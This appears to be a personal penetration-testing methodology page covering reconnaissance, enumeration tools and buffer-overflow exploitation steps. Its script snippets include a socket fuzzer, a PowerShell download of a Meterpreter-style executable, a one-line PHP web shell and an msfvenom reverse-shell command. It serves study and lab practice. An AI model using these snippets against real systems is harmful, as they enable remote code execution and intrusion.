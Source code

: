 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:
	- arp-scan --localnet
    - ping sweep - using nmap -sn > insert subnet here
    - passive listening using Wireshark/tcpdump

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow.  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell***  
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

php system ($_GET[“cmd”]);



__BufferOverflow:__  

Some services will accept user input, but are not configured correct, in that they do not filter or allocate the correct input exactly so that sending more input than what the program is expecting will overwrite the programs execution flow and it will crash. If this is the case, sometimes a script can be created that controls this overflow behavior and instead of crashing the program, instructs it to do whatever the attacker wants (usually establishing a reverse shell or executing other malicious programs).  Below is a very short list of steps to BoF:  

__BoF Phase1:__  
1. Use a "fuzzing" script to detemrmine if the program is susceptible to crashing at a determined input amount. Use a debugger to ensure that the EIP register is overwritten with "A's".  
2. Create a unique pattern (MetaSploit's pattern_create can be used) based on the amount of data that previously crashed. Send the pattern to the program via modified script and copy the pattern that appears in the EIP.  
3. Use MetaSploit's pattern_offset tool to determine where in the unique value the EIP previously obtained, is included (what bit value, or point in the whole pattern was this bit that fit into the EIP is at).  
4. Modify script to include the crashing byte amount and the offset (set a different value for this, only 4 "B's" or \x42). Include trailing "C's" or \x43 for padding. This will be a placeholder for shellcode.  

__BoF Phase2:__  
5. Find bad characters that the program will not accept. If using Immunity debugger, the Mona module is good for this.  
6. Use this information to perform wider search for memory locations to pivot to with "JMP ESP" instruction set. This can be done via Mona using "!mona jmp -r esp -cpb "badCharacters". Focus on modules with no DEP or ASLR protections.  
7. Remember that the value found here must be placed into script used in Little-Endian format (backwards), or using a module that does this conversion for you.  

__BoF Phase3:__  
8. Shellcode generation. Sample shellcode using MSFVenom is as follows:  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b “\x00\x0a” EXITFUNC=THREAD -f python  
Do not forget to include the bad characters you have found via the -b option.  
9. When testing the final script NOPs (\x90) may need to be added for additional padding.  
10. Test offline and not against target before the actual attack target.  


        
